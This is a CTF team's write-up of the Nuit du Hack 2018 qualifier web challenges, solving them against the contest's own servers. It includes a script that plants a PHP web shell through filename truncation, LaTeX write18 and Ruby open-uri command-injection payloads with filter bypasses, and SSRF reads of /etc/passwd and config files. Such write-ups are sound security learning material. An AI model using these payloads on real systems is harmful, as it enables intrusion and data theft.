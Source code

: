 # Nuit du Hack CTF Quals 2018

 - [Nuit du Hack CTF Quals 2018](#nuit-du-hack-ctf-quals-2018)
   - [Pwn](#pwn)
   - [reverse](#reverse)
   - [Web](#web)
     - [PixEditor (bookgin)](#pixeditor-bookgin)
     - [Linked Out (bookgin)](#linked-out-bookgin)
     - [Crawl Me Maybe (unsolved, written by bookgin)](#crawl-me-maybe-unsolved-written-by-bookgin)
     - [CoinGame (bookgin)](#coingame-bookgin)
     - [WaWaCoin (unsolved, written by bookgin)](#wawacoin-unsolved-written-by-bookgin)
     - [Cryptolol (solved by sasdf)](#cryptolol-solved-by-sasdf)


## Pwn 

## reverse

## Web

### PixEditor (bookgin)

In this challenge, we can POST a list of RGBA pixels, with specific format JPG, PNG, BMP, GIF. After sending the request to the server, we can download the image we just uploaded. The filename will remain the same.

```
data=[255,0,0...]
name=image.JPG
format=JPG
```

My intuition is to upload a web shell. However, I've tried lot of filenames but they all failed. It seems the filename is properly parsed by php `basename()`.

Next, I wonder what will happend if I'm trying to create a filename which is longer than 255 bytes, because the [maximum filename length](https://en.wikipedia.org/wiki/Comparison_of_file_systems#Limits) for `ext4` is 255. To my surprise, a filename with only 55 bytes gets truncated!

- POST filename `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz.bmp`
- The server saves the file as `ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwx`

The rest is trivial. We just need to manipulate the pixels to create a web shell. Pleases check my script for details.

```python=
#!/usr/bin/env python3
# Python 3.6.4
import requests
import json

payload = '''<?php
system($_GET["j"]);'''

bmp = []
for i in range(0, len(payload), 3):
    bmp += list(payload[i:i+3].encode())[::-1] + [0x00]
bmp += [0 for _ in range(4096 - len(bmp))]
payload = dict(
    data=json.dumps(bmp),
    name='abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRST.phpXYZ.BMP',
    format='BMP'
)
print(requests.post('http://pixeditor.challs.malice.fr/save.php', data=payload).text)
```

Just `j=cat /flag` and win.

After I already got the flag, one of my teammate found this in the javascript. However, I didn't notice that.

`inputName.maxLength = 45; // 50 - Len(Extension) - Filename will be truncated if len > 50`

### Linked Out (bookgin)

We can upload a YAML config file, and the website will render the content through LaTeX.

Our first try is to insert some latex syntax `\texttt{GG} \textbf{greatest}`. It gets rendered.

How about some evil RCE latex syntax?

```
\immediate\write18{ls > aaa.txt}
\input{aaa.txt}
```

We soon found the flag is in `/flag`. Nevertheless, we fail to cat it out. We only got a parsing error. That's weird as I'm sure we have read permission via `ls -all /flag`.

After a few tries, we found `cat Makefle`, `pwd` are giving us parsing error. I wonder if there is a WAF. A quick PoC `echo NDH` and `echo a` solves the mystery - it's WAFed. The underscore is WAFed as well.

So we just bypass it with powerful `sed`. Here is the payload:

```yaml=
- '\immediate\write18{cat /flag | sed "s/_/Q/g" | sed "s/NDH/WWW/g"> see}'
- '\input{see}'
```

### Crawl Me Maybe (unsolved, written by bookgin)

The website will crawl the user-provided URL and displays the content. A quick test `url[]=` leads to an error which leaks the ruby source code:

```ruby
require 'open-uri'
require 'nokogiri'


set :bind, '0.0.0.0'
set :port, 8080


get '/' do
  @title = 'Crawl Me Maybe!'
  erb :index
end

post '/result' do
  @title = 'Crawl Me Maybe!'
  url = params["url"]

  if /sh|dash|bash|rbash|zsh/.match(url) || url.match('flag') || url.match('txt') || url.index('*') != nil || (url.index('|') != nil && !(url.index('cat') != nil || url.index('ls') != nil))
    @result = "Attack detected"
    erb :error
  else
    begin
      page = open(url)
    rescue StandardError => e
      @result = "Invalide url"
      erb :error
    else
      begin
        page = Nokogiri::HTML(page) { |config| config.strict }
        @result = "Page well formed !"
        @content = page.text
        erb :result
      rescue Nokogiri::HTML::SyntaxError => e
        @result = "caught exception: #{e}"
        erb :error
      end
    end
  end
end
```

1. `open-uri` is very dangerous. `open('| ls')` results in RCE, while `open('/etc/passwd')` results in local file leaks.
2. CHECK THE WAF CAREFULLY (we fail to do so). It seems working, but in fact, `| ls` is still a valid payload.

Payload:
```shell=
# locate the flag
$ curl 'http://crawlmemaybe.challs.malice.fr/result' --data 'url=| ls >/dev/null; find / | grep fla'
/home/challenge/src/.flag.txt

# get the flag
$ curl 'http://crawlmemaybe.challs.malice.fr/result' --data 'url=| ls >/dev/null; cat /home/challenge/src/.fla?.t?t'
NDH{CUrly_Ruby_J3p53n}
```


This one is acctually very simple, but we are too tired to solve this...... Never stay up late playing CTf, guys.


### CoinGame (bookgin)

The website is a online `curl` service, with PHP as the backend.

`file:///etc/passwd` still works lika a charm, and what's more intriguing is that there is a user named `tftp`.

Let's get information as more as possible:

- source code: `file:///var/www/html/curl.php`
    - PHP curl: We can use `gopher`, though it's useless in the challenge. Refer to [SSRF bible](https://docs.google.com/document/d/1v1TkWZtrhzRLy0bYXBcdLUedXGb9njTNIJXa3u9akHM/edit).
- OS: file:///etc/os-release
- tftp config file: `file:///etc/default/tftpd-hpa`
```
# /etc/default/tftpd-hpa
 
TFTP_USERNAME="tftp"
TFTP_DIRECTORY="/home/CoinGame"
TFTP_ADDRESS="0.0.0.0:69"
TFTP_OPTIONS="--secure --create"
```

Nevertheless, we are not able to connect to the tftp remotely. Then, we tried to dig some files under `/home/CoinGame` but none of them works. We got stuck here.......

Suddenly, there arises inspiration in my mind. I start googling the author `Designed by totheyellowmoon`, accidently finding that he has only one repo, which is named `CoinGame`.

Next, just crawl all the contents thorugh `file:///home/CoinGame/README.md` .... and diff with the repo. We found lots of images are not the same, and they contatins the flag.

Hmm, I don't think this challenge is well-designed.

### WaWaCoin (unsolved, written by bookgin)

In the login page, if the username doesn't not exist, we'll get `bad username`. Then, through a quick enumeration we found `admin` exists.

In the manager page, we are set a cookie by the server, `session=757365723d64656d6f|9183ff6055a46981f2f71cd36430ed3d9cbf6861`. The first part is `user=demo` in hex, and the second part is a 20 bytes SHA1-hash. Manipulating the `user=admin` gets nothing, as the second part SHA1 seems like a signature. Therefore, the server will validate the signature and the first part.

Later we found the category of the problem is updated to `crypto/web`, so length extension attack comes to my mind.

However, we only send the payload to `/stealmoney` and `/login`. What's worse, we doesn't follow the redirect. In fact, one of the payload readlly works, but we send to the wrong API. Sending to `/stealmoney` will always redirect you to other page. The correct one is `/manager`.

You can check [@Becojo's script](https://gist.github.com/Becojo/17dbd49b5e8f25d9d7534afc2ed76c64) for more detail. It seems that appending `;user=admin` or `&user=admin` both works.

@sasdf, @sces60107 and I acctually spent 6+ hours on the frustrating challenge (sob).

### Cryptolol (solved by sasdf)

To be completed
